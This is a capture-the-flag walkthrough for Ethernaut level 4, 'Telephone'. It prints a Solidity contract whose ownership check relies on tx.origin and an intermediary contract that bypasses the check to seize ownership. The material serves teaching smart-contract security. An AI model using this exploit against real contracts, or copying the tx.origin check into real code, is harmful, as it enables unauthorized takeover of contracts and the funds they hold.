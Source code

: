 # Level 4: Telephone

This is the level 4 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [Difference between `tx.origin` and `msg.sender`](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

`player` has to claim this contract's ownership.

Simple one. We'll make an intermediate contract (named `IntermediateContract`) with the same method `changeOwner` (or anything else -- name doesn't matter) on Remix. `IntermediateContract`'s `changeOwner` will simply call `Telephone` contract's `changeOwner`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ITelephone {
  function changeOwner(address _owner) external;
}

contract IntermediateContract {
  function changeOwner(address _addr) public {
    ITelephone(_addr).changeOwner(msg.sender);
  }
}
```

`player` will call `IntermediateContract` contract's `changeOwner`, which in turn will call `Telephone`'s `changeOwner` with `msg.sender` (which is `player`) as param. In that case `tx.origin` is `player` and `msg.sender` is `IntermediateContract`'s address. And since now `tx.origin` != `msg.sender`, `player` has claimed the ownership.

Done.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

